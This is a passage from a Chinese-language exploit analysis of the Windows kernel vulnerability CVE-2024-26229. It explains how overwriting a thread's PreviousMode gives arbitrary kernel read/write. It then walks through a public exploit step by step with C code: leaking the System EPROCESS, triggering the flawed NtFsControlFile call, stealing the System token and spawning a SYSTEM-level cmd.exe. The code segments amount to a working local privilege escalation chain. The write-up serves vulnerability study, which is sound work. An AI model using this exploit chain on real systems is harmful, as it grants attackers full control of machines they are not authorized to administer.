 ```cpp
    // skip other code
  }
}
```

也就是说，当我们能够想办法将当前线程的`PreviouseMode`值为0的时候，我们即可绕过内存地址检查，直接调用`NtReadVirtualMemory`或者`NtWriteVirtualMemory`实现真正意义的任意地址写

### EXP最终利用（旧版本）

当我们能够实现任意地址写，即可配合[这个github中提到的Windows常见泄露技巧](https://github.com/sam-b/windows_kernel_address_leaks/tree/master)，尝试泄露敏感进程（System进程）的Token，并且将该Token写入我们当前进程，即可实现提权。

这边结合[公开的脚本](https://github.com/varwara/CVE-2024-26229/blob/main/CVE-2024-26229.c)分析一下利用流程

1. 首先利用由`NtQuerySystemInformation`封装的函数`GetObjPtr`泄露System进程的`EPROCESS`以及当前线程的`ETHREAD`：

```cpp
GetObjPtr(&Sysproc, 4, 4); // 泄露System EPROCESS，准备从这边获取token
Ret = GetObjPtr(&Curthread, GetCurrentProcessId(), hThread); // 获取当前线程ETHREAD，进行PreviousMode替换
hCurproc = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, GetCurrentProcessId()); // 泄露当前进程的EPROCESS，准备替换token
```

2. 触发漏洞，将当前线程PreviousMode改写成0

```cpp
status = NtFsControlFile(handle, NULL, NULL, NULL, &iosb, CSC_DEV_FCB_XXX_CONTROL_FILE, /*Vuln arg*/ (void*)(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET - 0x18), 0, NULL, 0);
if (!NT_SUCCESS(status))
{
    printf("[-] NtFsControlFile failed with status = %x\n", status);
    return status;
}
```

3. 此时，可以实现往内核地址的读写，将System进程Token地址拷贝到当前进程

```cpp
Write64(Curproc + EPROCESS_TOKEN_OFFSET, Sysproc + EPROCESS_TOKEN_OFFSET, 0x8);
```

4. 恢复PreviousMode，此时该进程完成提权

```cpp
//
// Restoring KTHREAD->PreviousMode
//
Write64(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET, &mode, 0x1);

//
// spawn the shell with "nt authority\system"
//

system("cmd.exe");
```
